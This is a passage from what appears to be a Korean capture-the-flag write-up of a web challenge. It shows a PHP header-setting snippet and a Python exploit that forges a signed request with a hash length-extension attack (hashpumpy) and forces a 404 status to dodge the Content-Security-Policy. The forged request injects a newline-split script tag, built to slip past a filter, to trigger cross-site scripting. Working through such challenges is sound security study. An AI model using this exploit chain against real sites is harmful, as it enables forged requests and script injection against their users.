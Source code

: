 이 스크립트를 통해 salt의 길이는 12 자리인 것을 확인 했습니다.

이제 `CSP` 을 우회해서 script을 작동 시키는 방법을 찾아 봅니다.

```php+HTML
<?php
if ($n === "header") {
        if(strlen($p1) > 10)
            continue;
        if(strpos($p1.$p2, ":") !== false || strpos($p1.$p2, "-") !== false) //Don't trick...
            continue;
        header("$p1: $p2");
    }
```

[CSP(Content-Security-Policy) Bypass technique](https://www.hahwul.com/2019/01/csp-bypass-technique-xss.html) 글을 읽어 보면서 중간에 Error page 즉 400/500 번 대의 페이지에는 CSP을 설정 안 하는 경우가 있다고 해서 이 방법을 사용 하여 공격을 진행 했습니다.

```python
msg_1  = "|{},{},{}".format(b64encode("header".encode()).decode(),b64encode("http/1.1".encode()).decode(),b64encode("404".encode()).decode())
```

위와 같이 header에 http/1.1 : 404 라는 항목이 들어갈 수 있도록 완성을 하였고 test을 위한 xss 내용은 정규식을 피하도록 \n 개행 처리를 이용하여 우회를 했습니다.

```python
import requests
from base64 import b64encode
from hashpumpy import hashpump

ori_msg = "Ym9keQ==,7YyA66qo65GQIQ==," # 팀모두!
ori_sig = "9325813a0a951c308d6c5c0c9a462648"
msg_1  = "|{},{},{}".format(b64encode("header".encode()).decode(),b64encode("http/1.1".encode()).decode(),b64encode("404".encode()).decode())
msg_2  = "|{},{},".format(b64encode("body".encode()).decode(),b64encode("""<script\n>alert("xss")\n</script\n>""".encode()).decode())
msg_3  = "|{},{},{}".format(b64encode('cookie'.encode()).decode(),b64encode('cookies!'.encode()).decode(),b64encode('팀모두 화이팅!'.encode()).decode())
url = "http://110.10.147.166/api.php"
key_len = None

def found():
    for i in range(1,32):
        [sig, value] = hashpump(ori_sig, ori_msg, "Test", i)
        params = {'q' : b64encode(eval("b'''" + value + "'''")).decode(),
                'sig' : sig}
        response = requests.get(url,params)
        if "??" not in response.text:
            key_len = i
            break
        print(params)
        print(response.text+" : ",i)

    print("found!!!key_length!!!!!! : "+str(key_len))
    return key_len

[sig, value] = hashpump(ori_sig, ori_msg, msg_1+msg_2+msg_3, 12)
params = {'q' : b64encode(value).decode(),
        'sig' : sig}
print(url+"?q={}&sig={}".format(params['q'],params['sig']))
# response = requests.get(url,params)
# print(response.text)

# print(response.url)

```